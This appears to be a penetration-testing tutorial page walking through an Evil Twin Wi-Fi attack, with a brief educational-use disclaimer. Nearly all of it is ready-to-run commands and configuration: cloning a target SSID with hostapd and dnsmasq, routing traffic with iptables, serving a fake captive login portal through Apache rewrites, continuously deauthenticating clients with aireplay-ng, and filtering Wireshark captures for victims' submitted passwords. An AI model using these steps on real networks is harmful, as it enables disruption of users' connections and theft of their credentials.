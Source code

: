 # Evil-Twin Attack



{% hint style="danger" %}
This is for educational purposes and only to be performed on networks you have permission to do so.
{% endhint %}

Basic info on Wireless can be found [here](../../networking/wireless/).\
\
This will be a walk through on performing an [Evil Twin wireless attack](https://www.varonis.com/blog/evil-twin-attack) and [Captive Portals](https://www.linksys.com/what-is-a-captive-portal.html).

An evil twin is a fake wireless access point(AP) that looks like a real one. The concept is to set up a malicious wireless network with the same SSID name as the target.

This is not required to have a WiFi Adapter that supports monitor mode, also known as packet injection. Though this will required if kicking clients off their network to connect to ours.

## Hardware

I myself have and recommend these adapters:

* [Alfa AWUS036ACM](https://www.amazon.com/Alfa-AWUS036ACM-Long-Range-Dual-Band-Wireless/dp/B073X6RL9D) <-- Capable of 2.4GHz and 5GHz
* [Alfa AWUS036ACHM](https://www.amazon.com/gp/product/B08SJBV1N3/ref=ox\_sc\_act\_title\_1?smid=A20G3A026MV70R\&psc=1) <-- Capable of 2.4GHz and 5GHz
* [Alfa AWUS036ACH](https://www.amazon.com/dp/B08SJC78FH?ref\_=cm\_sw\_r\_cp\_ud\_dp\_PSZZG6J9X0XH40GXB685) <-- Capable of 2.4GHz and 5GHz (This more than likely \*will\* require driver installation)
* [Panda Wireless PAU09 N600](https://www.amazon.com/Panda-Wireless-PAU09-Adapter-Antennas/dp/B01LY35HGO) <-- Capable of 2.4GHz and 5GHz
* [Alfa AWUS036NEH](https://www.amazon.com/AWUS036NEH-Range-WIRELESS-802-11b-USBAdapter/dp/B0035OCVO6)
* [Alfa AWUS036NH](https://www.amazon.com/Alfa-AWUS036NH-802-11g-Wireless-Long-Range/dp/B003YIFHJY)
* [Panda Wireless PAU05](https://www.amazon.com/Panda-300Mbps-Wireless-USB-Adapter/dp/B00EQT0YK2)
* [TP-Link TL-WN722N](https://www.amazon.com/TP-Link-TL-WN722N-Wireless-network-Adapter/dp/B002SZEOLG)
* [Ralink USB WiFi RT5370](https://www.amazon.com/Ralink-RT5370-Raspberry-Adapter-Function/dp/B019XUDHFC)

You can also use a device such as [WiFi Pineapple](https://shop.hak5.org/products/wifi-pineapple). This primarily works on open networks.

First we install the prerequisites

```
sudo apt install -y dnsmasq and hostapd aircrack-ng
```

## Finding target

First we find our target, I will target "Open-WiFi" in this example. we use airodump for this

```
sudo airodump-ng (interface) 
```

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Kill process that may interfere

```
sudo airmon-ng check kill
```

<figure><img src="../../.gitbook/assets/image (464).png" alt=""><figcaption></figcaption></figure>

now put the interface into monitor mode if we're deauthenticating a client.

```
sudo airmon-ng start (interface)
```

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## Setup AP

Create `dnsmaqs.conf` file

```
# Set the wifi interface
interface=(interface)

# Set the IP range that can be given to clients
dhcp-range=10.0.0.10,10.0.0.100,255.255.255.0,8h

# Set the gateway IP address
dhcp-option=3,10.0.0.1

# Set DNS server address
dhcp-option=6,10.0.0.1

# Set Server
server=8.8.8.8

# logs
log-queries
log-dhcp

# Redirect all requests to 10.0.0.1
#address=/#/10.0.0.1

# Redirect google to 10.0.0.1
#address=/google.com/10.0.0.1
#address=/www.google.com/10.0.0.1
#address=/google.com/www.google.com.com/10.0.0.1
```

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Note to uncomment lines. if we uncomment the `#address=/#/10.0.0.1` this will let clients connect but they will not get internet access as the pound sign(`#`) is a wildcard for dnsmasq. So they will connect to the AP, then immediately asked to sign-in with the Evil Portal that is setup.

So instead we can redirect websites back to our Evil Portal instead.

Create `hostapd.conf` and fill in with target info

```
interface=(interface)
driver=nl80211
ssid=(Target AP)
hw_mode=g
channel=(Target channel)
macaddr_acl=0
ignore_broadcast_ssid=0
```

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Assign the interface a gateway and netmask

```
sudo ifconfig (interface) up 10.0.0.1 netmask 255.255.255.0
```

Add the routing table

```
sudo route add -net 10.0.0.0 netmask 255.255.255.0 gw 10.0.0.1
```

Setup an easy script for IP with:

```
sudo iptables --flush
sudo iptables --table nat --append POSTROUTING --out-interface (internet interface) -j MASQUERADE 
sudo iptables --append FORWARD --in-interface (wireless interface) -j ACCEPT 
sudo iptables -t nat -A POSTROUTING -j MASQUERADE
sudo echo 1 > /proc/sys/net/ipv4/ip_forward
```

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

I named mine IP-Tables.sh. Make it executable and run it

```
chmod +x IP-Tables.sh
sudo ./IP-Tables.sh
```

If you want the AP setup without using a captive portal, just run dnsmasq and hostapd

Start dnsmasq with

```
sudo dnsmasq -C (path/to/dnsmasq.conf)
```

Start hostapd with

```
sudo hostapd (path/to/hostapd.conf)
```

We can run the command with a -B at the end to push it to the background. Though if we do this, we don't see when a client connects

```
sudo hostapd (path/to/hostapd.conf) -B
```

### Captive Portals

Put your captive portal files, and put them in the `/var/www/html/` directory.

[Example Portals here](https://github.com/Th4ntis/Evil-Portals.git)

Edit `/etc/apache2/sites-enabled/000-default.conf` and add the following to the end

```
sudo nano /etc/apache2/sites-enabled/000-default.conf
```

```
<Directory "/var/www/html">
RewriteEngine On
RewriteBase /
RewriteCond %{HTTP_HOST} ^www\.(.*)$ [NC]
RewriteRule ^(.*)$ http://%1/$1 [R=301,L]

RewriteCond %{REQUEST_FILENAME} !-f
RewriteCond %{REQUEST_FILENAME} !-d
RewriteRule ^(.*)$ / [L,QSA]
</Directory>
```

<figure><img src="../../.gitbook/assets/image (465).png" alt=""><figcaption></figcaption></figure>

Start the web server

```
sudo service apache2 start
```

Start dnsmasq with:

```
sudo dnsmasq -C (path/to/dnsmasq.conf)
```

Start hostapd AP with:

```
sudo hostapd (path/to/hostapd.conf)
```

We can run the command with a -B at the end to push it to the background. Though if we do this, we don't see when a client connects

```
sudo hostapd (path/to/hostapd.conf) -B
```

<figure><img src="../../.gitbook/assets/image (466).png" alt=""><figcaption></figcaption></figure>

Once we're ready, we can disconnect clients from their network to connect to ours with aireplay.

```
sudo aireplay-ng -0 0 -a (BSSID) (interface)
```

OR if we want to deauth a specific client:

```
sudo aireplay-ng -0 0 -a (bssid) -c (Client MAC Address) (interface)
```

the `-0 0` will send deauth packets continuously until stopped. we can change it to `-0 10` to send just 10 deauth packets.

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## Post connection

Once they are connected, or even before, we can start intercepting traffic with whatever tools we want, like [Wireshark](../../networking/wireshark.md), [tshark](https://www.wireshark.org/docs/man-pages/tshark.html), [tcpdump](https://www.tcpdump.org/), etc. In this case I'll use wireshark on `wlan0`, the interface I was broadcasting from.

<figure><img src="../../.gitbook/assets/image (467).png" alt=""><figcaption></figcaption></figure>

As the user attempts to go to any page, they are taken to a login portal, asked enter a username/password on the portal and it will be captured.

We look for `HTTP Post Request` , then HTML Form URL Encoded, we will see their credentials.

<figure><img src="../../.gitbook/assets/image (468).png" alt=""><figcaption></figcaption></figure>

#### Wireshark to filter for packets

* `dns and ip.adr=(IP)` to see sites they are going to
* `frame contains (word)` will search for various words
* `http.request.method=="POST"` will show us login info.
